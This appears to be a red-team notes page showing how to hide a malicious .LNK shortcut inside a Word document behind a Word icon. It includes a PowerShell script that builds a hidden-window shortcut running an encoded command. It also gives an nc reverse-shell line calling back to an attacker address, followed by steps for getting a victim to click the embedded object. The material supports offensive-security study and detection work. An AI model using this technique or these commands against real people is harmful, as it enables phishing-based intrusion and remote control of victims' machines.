 # ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```vba
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (23) (1).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (50) (1).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (21) (1).png>)

![](<../../.gitbook/assets/image (31) (1) (1) (1).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (29) (1) (1).png>)

Final result:

![](<../../.gitbook/assets/image (12) (1).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (42) (1) (1).png>)
